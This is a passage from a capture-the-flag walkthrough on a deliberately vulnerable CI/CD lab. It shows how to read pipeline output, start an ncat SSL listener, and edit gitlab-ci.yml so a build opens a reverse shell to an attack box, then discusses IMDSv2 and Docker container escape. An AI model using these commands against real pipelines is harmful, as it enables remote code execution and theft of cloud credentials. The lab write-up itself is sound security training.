     ![Pipeline Output](../../images/aws/capture_the_flag/cicdont/buildoutput.png)

    This can tell us a few things that are very useful to us as attackers. First, on line 3, we see that the CI/CD pipeline is using the "docker" executor, meaning everything executes inside a Docker container somewhere. On line 6, we see that it is using an Ubuntu Docker image. And lines 20+ show us that our input is executing in this environment.

    This looks like a fantastic place to start.

    **Getting a Reverse Shell**

    Our next step will be to get a shell in this environment. This is where our attackbox can come in.

    **Please note**: You are welcome to use your C2 platform of choice (If you'd like a recommendation, I'm a fan of [Mythic](https://github.com/its-a-feature/Mythic)). For this walkthrough I will use netcat for simplicity.

    SSH into your attack box and install a tool called `ncat`.

    ![ncat install](../../images/aws/capture_the_flag/cicdont/ncat.png)

    Now, we can setup a listener (from the attackbox) with the following command.

    ```
    sudo ncat -l 443 --ssl -v
    ```

    We can now go back and edit the gitlab-ci.yml file to send a reverse shell. Using Ncat it's as easy as adding the following lines. From our previous foray we know this is an Ubuntu Docker container, and thus, we can use the [apt](https://en.wikipedia.org/wiki/APT_(software)) package manager.

    ```
    apt update
    apt install -y ncat
    ncat <attackbox_ip> 443 --ssl -e /bin/bash -v
    ```

    ![Second Pipeline](../../images/aws/capture_the_flag/cicdont/newbuild.png)

    Now click "Commit changes" and watch that pipeline run.

    You are now the proud owner of a reverse shell inside this Docker container.

    ![Shell](../../images/aws/capture_the_flag/cicdont/shell.png)

    **Docker Socket**

    From here, there are a number of things we could try to do. Your first instinct may be, "I'm on an EC2 instance, can I reach the metadata service?". That's a great idea! Unfortunately you can't.

    The bright folks over at SoftHouseIO use [IMDSv2](https://hackingthe.cloud/aws/general-knowledge/intro_metadata_service/#imdsv2), one of the benefits of which is that Docker containers cannot reach it by default.

    ```
    TTL of 1: The default configuration of IMDSv2 is to set the Time To Live (TTL) of the TCP packet containing the session token to "1". This ensures that misconfigured network appliances (firewalls, NAT devices, routers, etc.) will not forward the packet on. This also means that Docker containers using the default networking configuration (bridge mode) will not be able to reach the instance metadata service.
    ```

